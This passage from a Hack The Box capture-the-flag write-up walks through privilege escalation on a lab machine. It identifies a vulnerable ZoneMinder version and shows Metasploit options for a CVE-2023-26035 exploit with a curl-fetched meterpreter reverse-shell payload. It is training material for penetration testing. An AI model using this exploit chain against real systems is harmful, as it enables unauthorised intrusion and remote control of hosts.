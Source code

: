 Now we can access the hidden website in the browser:

![05-hidden_webpage](https://github.com/amalcew/htb-writeups/assets/73908014/145d7381-bba4-4785-9ba4-800b543fbec4)

So that's why there is a second standard user `zoneminder`! This is obviously the next step in the privileges escalation we should take.

The `linpeas` report dumped also some credentials to database used by the website:

![Screenshot_2024-04-11_23-48-51](https://github.com/amalcew/htb-writeups/assets/73908014/854bdf1b-da00-469e-aaf7-4cb2aa191064)

but sadly our curent user cannot perform any commands to access the db. As we have no credentials to the panel, we need to dig deeper.

After some searching, I've found the `config.php` file of the Zoneminder, that revealed the version of the service:

```bash
matthew@surveillance:/usr/share/zoneminder/www/includes$ cat config.php | grep VERSION
define( 'ZM_VERSION', '1.36.32' );               // Version
```

Quick Google search revealed, that this versoin is vulnerable to [CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035), which affects the snapshot action of the service. There is neat metasploit exploit, that we will use during escalation:

```bash
msf6 exploit(unix/webapp/zoneminder_snapshots) > show options

Module options (exploit/unix/webapp/zoneminder_snapshots):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit
                                         /basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The ZoneMinder path
   URIPATH    /                no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address o
                                       n the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET
                                                  )
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
```